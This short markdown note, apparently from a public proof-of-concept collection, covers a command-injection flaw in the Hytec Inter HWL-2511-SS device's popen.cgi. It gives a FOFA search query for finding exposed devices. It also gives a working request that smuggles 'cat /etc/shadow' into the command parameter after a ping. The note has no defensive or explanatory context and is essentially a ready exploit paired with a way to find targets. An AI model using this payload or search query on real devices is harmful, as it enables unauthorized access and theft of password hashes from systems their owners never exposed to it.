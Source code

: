 ## Hytec Inter HWL-2511-SS popen.cgi命令注入漏洞

## fofa
```
title="index" && header="lighttpd/1.4.30"
```
![image](https://github.com/user-attachments/assets/45a0ebdc-3478-47ec-ba9c-af51c24c94e4)

### poc
```

/cgi-bin/popen.cgi?command=ping%20-c%204%201.1.1.1;cat%20/etc/shadow&v=0.1303033443137921
```
